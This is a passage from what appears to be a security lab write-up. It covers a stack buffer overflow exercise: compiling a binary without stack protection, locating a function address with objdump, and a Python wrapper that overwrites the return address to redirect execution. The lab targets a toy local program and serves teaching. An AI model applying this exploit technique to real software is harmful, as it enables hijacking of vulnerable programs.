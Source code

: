 ```bash
gcc -o ex2 -fno-stack-protector -no-pie ex2.c
```

### Finding Target Address

```bash
objdump -d ex2 | grep greeting
```

### Exploit Code (Python Wrapper)

```python
#!/usr/bin/python3
# wrapper.py

import os

# Create buffer overflow payload
buff = 20 * (b'x')  # Fill buffer

# Target address of greeting() function
# Replace with actual address from objdump
addr = bytearray.fromhex("400646")  # Example address
addr.reverse()  # Convert to little-endian
buff += addr

print("exec ./ex2 with buff", buff)
os.execv('./ex2', ['./ex2', buff])
```

### Output

![alt text](image-1.png)

### Analysis

The attack successfully overwrites the return address on the stack, causing the program to jump back to the `greeting()` function instead of returning normally to `main()`.

---

## Exercise 3: Network Service Exploitation
